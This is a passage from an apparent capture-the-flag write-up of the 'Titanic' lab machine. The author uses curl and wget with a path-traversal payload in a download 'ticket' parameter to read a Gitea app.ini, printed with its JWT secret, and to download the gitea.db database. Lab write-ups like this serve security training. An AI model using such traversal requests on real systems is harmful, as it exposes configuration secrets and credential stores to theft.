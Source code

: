 As per the [gittea documentaion](https://docs.gitea.com/installation/install-with-docker) The configuration file are saved at `/data/gitea/conf/app.ini` after an installation. We know this directory is hosted in the developers home directory, so lets utilize `curl` to view this file. 

```
drew@windows:~/tmp$ curl "http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/conf/app.ini"
```

```
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

[repository]
ROOT = /data/git/repositories

[repository.local]
LOCAL_COPY_PATH = /data/gitea/tmp/local-repo

[repository.upload]
TEMP_PATH = /data/gitea/uploads

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

In this file we can see the database path `/data/gitea/gitea.db` we can download it using wget. 
```
 wget "http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/gitea.db"

Saving to: ‘download?ticket=..%2F..%2F..%2F..%2F..%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db’

download?ticket=..%2F..%2F..%2F..%2F. 100

drew@windows:/mnt/c/Users/DrewQ$ mv download\?ticket\=..%2F..%2F..%2F..%2F..%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db gitea.db
```
